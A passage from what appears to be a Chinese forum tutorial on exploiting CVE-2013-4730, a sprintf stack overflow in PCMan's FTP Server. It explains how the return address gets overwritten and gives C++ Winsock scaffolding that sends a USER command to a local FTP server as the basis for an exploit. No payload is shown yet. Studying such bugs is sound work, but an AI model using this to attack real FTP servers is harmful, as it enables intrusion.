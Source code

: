 **image.png** _(144.03 KB, 下载次数: 0)_

[下载附件](forum.php?mod=attachment&aid=MjQ5Njc4MHxiYTM5YjM3ZHwxNjQ1NTMzNzIwfDIxMzQzMXwxNTkxNjQ0&nothumb=yes)

7

2022-2-22 14:30 上传

  
运行至 ret，观察堆栈情况，可以看到，由于 sprintf 函数没有进行限制长度条件的判断，导致堆栈溢出覆盖了返回地址，此时程序会发生崩溃。  
![](https://attach.52pojie.cn/forum/202202/22/143155n06xtu3046455k0k.png)

**image.png** _(165.76 KB, 下载次数: 0)_

[下载附件](forum.php?mod=attachment&aid=MjQ5Njc4MXxjMzQ3MTliZnwxNjQ1NTMzNzIwfDIxMzQzMXwxNTkxNjQ0&nothumb=yes)

8

2022-2-22 14:31 上传

  
**4. 搞定 CVE-2013-4730**  
①前提我们需要一份能与 FTP 进行交互的代码触发此漏洞，其步骤如下：  
1) 建立 Socket 连接，连接目标 FTP  
2) 接受 FTP 服务器的欢迎语  
3)发送 “USER XXX” 登陆请求  
4) 接受请求结果（但是这里不会走到这一步，此时 FTP 服务器已经被攻击完了）  
②准备对 PCMan's FTP Server 程序进行通讯测试  
[C++] _纯文本查看_ _复制代码_

```
#include #pragma comment(lib,"Ws2_32.lib")
#include int _tmain(int argc, _TCHAR* argv[])
{
        //1.初始化Winsock服务
        WSADATA stWSA;
        WSAStartup(0x0202, &stWSA);
        //2.创建一个原始套接字
        SOCKET stListen = INVALID_SOCKET;
        stListen = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        //3.在任意地址（INADDR_ANY）上绑定一个端口21
        SOCKADDR_IN stService;
        stService.sin_addr.s_addr = inet_addr("127.0.0.1");
        stService.sin_port = htons(21);
        stService.sin_family = AF_INET;
        connect(stListen, (LPSOCKADDR)&stService, sizeof(stService));
        //4.接受欢迎语
        char szRecv[0x100] = { 0 };
        recv(stListen, szRecv, sizeof(szRecv), 0);
        //5.发送登录请求
        char cExpolit[] = "USER anonymous";//Expolit容器
        send(stListen, cExpolit, strlen(cExpolit), 0);
        recv(stListen, szRecv, sizeof(szRecv), 0);
        //6.关闭相关句柄并释放相关资源
        closesocket(stListen);
        WSACleanup();
} 
```
